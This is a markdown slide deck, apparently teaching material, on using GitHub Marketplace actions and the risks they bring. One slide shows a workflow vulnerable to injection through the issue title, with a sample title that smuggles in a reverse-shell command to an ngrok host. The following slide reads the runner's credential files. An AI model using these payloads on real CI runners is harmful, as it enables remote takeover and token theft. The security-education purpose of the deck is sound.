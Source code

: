 <!-- .slide: class="with-code" -->
# What is the marketplace

* List of free and paid tools
* GitHub Actions and Apps
* Anyone can share their apps
* Anyone can publish an action in GitHub Marketplace

Notes:
ex paid : https://github.com/marketplace/wip
* only apps owned by organizations can sell their app

##==##
<!-- .slide: -->

# How to use

* https://github.com/marketplace?type=actions

![float-left w-800](./assets/images/githubsearch.png)

![float-right w-800](./assets/images/githubaction_marketplace_action.png)

Notes: Demo direct sur la marketplace

##==##
<!-- .slide: class="with-code" -->

# Use an GitHub Action from the marketplace

## Using versioned actions

```yaml
steps:
  # Reference a specific commit
  - uses: actions/checkout@a81bbbf8298c0fa03ea29cdc473d45769f953675
    
  # Reference the major version of a release
  - uses: actions/checkout@v3
    
  # Reference a specific version
  - uses: actions/checkout@v3.2.0
    
  # Reference a branch
  - uses: actions/checkout@main
```
<!-- .element class="big-code" -->

<br> 
<br> 

## Using actions with parameters
```yaml
- name: Inject slug/short variables
  uses: rlespinasse/github-slug-action@v4
  with:
    short-length: 8
    prefix: CI_
```

##==##
<!-- .slide: -->

# Risk

* Credential stealing
  * Opportunistic
  * Intentional
* Any maintainer can update a branch or a tag
* Runner credential stealing 

Notes:
Opportunistic - sensitive information is accidentally output to the log and an attacker finds it and uses it
Intentional - an attacker is able to insert a program into your workflow that steals credentials and sends them to the attacker
Use SHA-1 instead of version

##==##
<!-- .slide: class="with-code" -->

# Example

* step of our Github Actions

```yaml
      - run: |
         echo "ISSUE TITLE: ${{github.event.issue.title}}"
         echo "ISSUE DESCRIPTION: ${{github.event.issue.body}}"
```

* Simple issue name that trigger our Action
```yaml
New malicious issue title" && bash -i >& /dev/tcp/8.tcp.ngrok.io/15063 0>&1 && echo "
```

Notes:

ngrok to make a backdoor

##==##
<!-- .slide: class="with-code" -->

* Credential 

```yaml
$ cat /home/runner/runners/2.287.1/.credentials
{"data":{"token":"REDACTED"},"scheme":"OAuthAccessToken"}
```

* Runner's data 

```yaml
$ cat /home/runner/runners/2.287.1/.runner
{
  "AgentId": "1",
  "AgentName": "Hosted Agent",
  "PoolId": "2",
  "ServerUrl": "https://pipelines.actions.githubusercontent.com/REDACTED/",
  "SkipSessionRecover": "True",
  "IsHostedServer": "True",
  "workFolder": "_work",
  "WorkFolder": "/home/runner/work",
  "MonitorSocketAddress": "127.0.0.1:49100"
}
```

##==##
<!-- .slide: -->
# Usefuls actions

* [`actions/checkout`](https://github.com/marketplace/actions/checkout)

  * allow to checkout a repository 
  * github_token, ref, depth, path, ... customization

* [`actions/setup`](https://github.com/marketplace?type=actions&query=setup+)

  * allow to install a tool
  * provided by github and others
  * setup-java, setup-go, setup-node, setup-terraform, ....

* [`actions/dependency-review-action`](https://github.com/marketplace/actions/dependency-review)
  * scans pull requests for dependency changes and raise an error if vulnerabilities found.
